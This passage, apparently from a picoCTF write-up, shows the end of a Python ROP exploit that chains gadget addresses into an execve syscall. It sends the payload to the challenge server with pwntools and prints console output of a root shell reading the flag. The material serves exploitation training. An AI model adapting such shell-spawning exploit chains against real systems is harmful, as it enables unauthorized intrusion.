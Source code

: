 8</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5060</span>) <span class="comment"># padding without overwrite ebx</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0804fb90</span>) <span class="comment"># xor eax, eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0804a3d2</span>) <span class="comment"># int 0x80</span></span><br><span class="line"></span><br><span class="line">p = remote(<span class="string">"saturn.picoctf.net"</span>, [PORT])</span><br><span class="line"><span class="built_in">print</span>(p.recvS())</span><br><span class="line">p.sendline(payload)</span><br><span class="line">p.interactive()</span><br></pre> </td></tr></table></figure>

Let's run the script:

<figure class="highlight console"> <table> <tr> <td class="code"><pre><span style="color:#F99157">$ </span> python2 exp.py
<pre>python2 exp.py
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to saturn.picoctf.net on port 58931: Done
[<span style="color:#277FFF"><b>*</b></span>] How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
[<span style="color:#277FFF"><b>*</b></span>] Switching to interactive mode
<span style="color:#EC0101"><b>$</b></span> whoami
root
<span style="color:#EC0101"><b>$</b></span> ls
flag.txt
vuln
<span style="color:#EC0101"><b>$</b></span> cat flag.txt
picoCTF{5n47ch_7h3_5h311_<span style="color:#696969"><b>[REDACTED]</b></span>}<span style="color:#EC0101"><b>$</b></span> <span style="background-color:#FFFFFF"><span style="color:#1A1C23"> </span></span>
</pre></td></tr></table></figure>

I know the way of ROP-fu, old man. Your shell has been snatched.

<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
